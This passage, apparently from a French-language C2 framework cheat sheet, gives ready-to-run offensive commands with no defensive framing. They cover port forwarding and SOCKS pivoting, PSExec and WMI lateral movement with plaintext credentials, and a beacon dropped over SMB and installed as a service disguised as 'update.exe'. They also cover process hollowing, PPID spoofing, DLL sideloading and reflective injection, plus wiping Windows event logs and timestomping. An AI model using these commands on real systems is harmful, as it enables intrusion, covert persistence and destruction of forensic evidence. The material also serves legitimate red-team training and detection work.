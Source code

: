 ## 🌐 Lateral Movement

### Pivoting et proxying
```bash
# Port forwarding
portfwd add --remote-addr 192.168.1.10 --remote-port 3389 --local-port 3389

# SOCKS proxy
socks5 start --lport 1080

# Reverse port forward
rportfwd add --remote-addr 127.0.0.1 --remote-port 8080 --local-addr 192.168.1.100 --local-port 80
```

### Mouvement latéral
```bash
# PSExec lateral movement
psexec --hostname target.company.com --username admin --password pass123 --service-name updates

# WMI execution
wmiexec --hostname target.company.com --username admin --password pass123

# SMB beacon deployment
generate --http https://company.com --format exe --save /tmp/lateral.exe
upload /tmp/lateral.exe \\target\C$\Windows\Temp\update.exe
shell sc \\target create update binpath="C:\Windows\Temp\update.exe"
```

## 🎭 Techniques d'Evasion

### Process hollowing
```bash
# Process hollowing technique
generate --http https://company.com --strategy hollow --format exe --save /tmp/hollow.exe

# Parent process spoofing
generate --http https://company.com --strategy spawn --parent-pid [PID] --format exe
```

### DLL techniques
```bash
# DLL sideloading
generate --http https://company.com --format shared --save /tmp/legitimate.dll

# Reflective DLL injection
execute-dll /path/to/reflective.dll
```

### Anti-forensics
```bash
# Clear logs
shell wevtutil cl System
shell wevtutil cl Security
shell wevtutil cl Application

# Timestomping
shell powershell -c "(Get-Item file.exe).LastWriteTime = '01/01/2020 12:00:00'"

# Memory resident execution
execute-assembly --in-memory assembly.exe
```
